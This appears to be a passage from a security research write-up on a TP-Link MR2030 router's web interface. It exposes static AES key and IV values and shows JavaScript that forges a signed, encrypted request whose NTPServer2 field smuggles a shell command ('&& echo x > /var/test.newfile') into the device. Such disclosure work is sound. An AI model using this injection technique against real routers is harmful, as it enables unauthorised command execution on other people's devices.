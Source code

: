 Prettified the important lines are line 183-185 in the file ` tpEncrypt.js` on the MR2030!

Having a closer look with the debugger I cound this data in the object `this.aes`:

```yaml
iv: "5919123303609076"
key: "2420164152202434"
```

Those values are static between different submissions and different pages. The IV and KEY are only changed when the session ends and a new session is created.

Lookinf further into the execution revealed this code snippet:

```javascript
Encryptor.prototype.getSignature = function (seq, isLogin) {
  if (isLogin == 1) {
        var s = this.aesKeyString + '&h=' + this.hash + '&s=' + seq ||
        this.seq
  } else {
        var s = 'h=' + this.hash + '&s=' + seq ||
        this.seq
  }
  var sign = this.rsa.encrypt(s);
  return sign
};
```

... which create this string:

```javascript
s
"h=476a554104aa4e700bf2d05fcead100a&s=575280594"
```

But that was already to far... 

Because IV and KEY do not change between submissions or pages all I need to create a valid POST request body is the following JS code:

```javascript
data = $.Iencryptor.AESEncrypt("2&2\r\n[TIME#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nlocalTimeZone=+00:00\r\nNTPServer1=eu.pool.ntp.org\r\nNTPServer2=europe.pool.ntp.org && echo x > /var/test.newfile\r\n[HOUR#0,0,0,0,0,0#0,0,0,0,0,0]1,6\r\nyear=1970\r\nmonth=1\r\nday=3\r\nhours=20\r\nminutes=5\r\nseconds=54\r\n", 0); console.log('sign=' + data.sign + '\r\ndata=' + data.data);
sign=24d3c7c8f7c6d6c98b4d9f304b0ef6788dcc9e69e74b6aa7937956a07a1953cf3884427d2574e38acc08c7645017eab5ad78828d0ac0ff61e451831fced971bf
data=g3Gbm5mZiND1JvNUO/GNB2VC50VNW48wmrMwRDmKXmIuPzTeDvNMD5qTK8RUNDJslZd9A4o8AaYnBPe8nhMj/V3tYNBh2asmU2E1dHg01BAvAd31baYN10xLTsnp5oKDdximCAma6RJgnR0FKCx6q8cih62HNe6rcF/y2/gToqiMwEn/ekY/93+SV4YPjSmFFdAlFBi/VGH9fY5zv3k//+LjS3zzHCuBwoG9rdE45bC00iv7HrIVGb4RVKnW8Mmhu6Re4F5/MQiEbfWX1by+8xOSg1IfLNI555O5QdRy5SxAulogwW83KtRtJUHaQlgxYfNgsZAxYpvb0gCoQ1Hwjg== debugger eval code:2:9
```

Here I have set 

```
NTPServer2=europe.pool.ntp.org && echo x > /var/test.newfile
```
